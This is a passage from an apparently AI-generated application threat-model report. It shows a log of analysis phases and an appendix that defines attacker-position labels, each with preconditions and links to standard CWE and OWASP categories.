| Phase 3 | Architecture Modeling - 5 components, 4<br/>diagrams planned | threat-analyst (sonnet-4-6) | 1m 05s |
| Phase 5 | Asset Identification - 10 assets catalogued | threat-analyst (sonnet-4-6) | 1m56s |
| Phase 6 | Attack Surface Mapping - 32 entry points (8<br/>unauthenticated) | threat-analyst (sonnet-4-6) | 1m56s |
| Phase 7 | Trust Boundary Analysis - 6 boundaries | threat-analyst (sonnet-4-6) | 1m56s |
| Phase 8 | Security Controls - Adequate:0 Partial:5<br/>Weak:5 Unsafe:7 Missing:3 | threat-analyst (sonnet-4-6) | 1m23s |
| Phase 4 | (auto-repaired - inline within phase group) | threat-analyst (sonnet-4-6) | (inline) |
| Phase 9 | ▶ | Nx stride-analyzer (sonnet-4-6) | 1m 36s |
| Phase 9 | STRIDE Merge - 68 threats (Critical:13<br/>High:40 Medium:11 Low:4) | Nx stride-analyzer (sonnet-4-6) | 44s |
| Phase 10 | Scan Synthesis - 2 sca-practice, 5<br/>known-bad-libs MF | threat-analyst (sonnet-4-6) | 20s |
| Phase 10b | Triage Validation - 0 flags | appsec-triage-validator (sonnet-4-6) | 0m 30s |
| Phase 11 | Substeps 1-3 complete - stopping per<br/>STAGE1_PHASE_LIMIT=10b need_render=true | threat-analyst (sonnet-4-6) | 2m 26s |
| Phase 11 | Management summary (ms role) - authored<br/>`ms-verdict.json`,<br/>`ms-critical-attack-tree.json`… | threat-analyst (sonnet-4-6) | 2m 31s |
| Phase 11 | [§7](#7-security-architecture) enrichment (secarch role complete) | threat-analyst (sonnet-4-6) | 5m 49s |

---

<a id="appendix-a-vektor-taxonomy"></a>
## Appendix A — Vektor Taxonomy

This appendix defines the attacker-starting-position labels used in the Top Threats table and throughout [§8 Findings Register](#8-findings-register). Each label answers the question *what does the attacker need before the exploit begins?*

<a id="vektor-internet-anon"></a>
### Internet Anon

**Attacker position:** Unauthenticated attacker from the public internet · **Breach distance:** 1

**Preconditions:**

- Endpoint is reachable from the internet (no IP allowlist, no VPN)
- No authentication middleware blocks the request

**Typical CWEs:** [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [CWE-327](https://cwe.mitre.org/data/definitions/327.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html)

**Typical OWASP Top 10:** A01:2021, A03:2021, A07:2021

<a id="vektor-internet-user"></a>
### Internet User

**Attacker position:** Any authenticated low-privilege user (valid JWT / session) · **Breach distance:** 2

**Preconditions:**

- Attacker has signed up or otherwise obtained a valid user session
- Endpoint is behind auth but not behind role/admin checks

**Typical CWEs:** [CWE-434](https://cwe.mitre.org/data/definitions/434.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-287](https://cwe.mitre.org/data/definitions/287.html)

**Typical OWASP Top 10:** A01:2021, A04:2021, A05:2021, A10:2021

<a id="vektor-internet-priv-user"></a>
### Internet Priv User

**Attacker position:** Authenticated admin-level user (JWT with admin role or equivalent) · **Breach distance:** 2

**Preconditions:**

- Attacker holds admin credentials or has elevated privileges
- Endpoint gated on admin role but still exploitable once reached

**Typical CWEs:** [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-94](https://cwe.mitre.org/data/definitions/94.html)

**Typical OWASP Top 10:** A01:2021

<a id="vektor-victim-required"></a>
### Victim-Required

**Attacker position:** Attacker needs victim interaction - social engineering, crafted link, or live session · **Breach distance:** 2

**Preconditions:**

- Victim must click a link, load a page, or have an active session
- Applies to XSS, CSRF, click-jacking, open redirect

**Typical CWEs:** [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-601](https://cwe.mitre.org/data/definitions/601.html) · [CWE-1021](https://cwe.mitre.org/data/definitions/1021.html)

**Typical OWASP Top 10:** A01:2021, A03:2021

<a id="vektor-build-time"></a>
### Build-Time

**Attacker position:** Attacker controls a build input - CI runner, dependency, base image, or external data fetched during build · **Breach distance:** 3

**Preconditions:**

- Compromise of a dependency, registry, or base image
- OR compromise of a CI runner with write access to artifacts

**Typical CWEs:** [CWE-506](https://cwe.mitre.org/data/definitions/506.html) · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [CWE-1039](https://cwe.mitre.org/data/definitions/1039.html) · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html)

**Typical OWASP Top 10:** A08:2021

<a id="vektor-repo-read"></a>
### Repo-Read

**Attacker position:** Attacker gains read access to source repository (leaked clone, forked fork, insider, compromised developer workstation) · **Breach distance:** 3

**Preconditions:**

- Read access to the source tree at or after commit time
- No runtime exploit needed - the vulnerability is the content of the repo

**Typical CWEs:** [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [CWE-312](https://cwe.mitre.org/data/definitions/312.html) · [CWE-540](https://cwe.mitre.org/data/definitions/540.html)

**Typical OWASP Top 10:** A02:2021, A07:2021

<a id="vektor-n-a"></a>
### n/a

**Attacker position:** Architectural / meta-finding - no runtime entry point, the finding describes a design defect aggregating multiple code-level findings

**Preconditions:**

- Finding is AF-NNN (architectural) rather than F-NNN (code-level)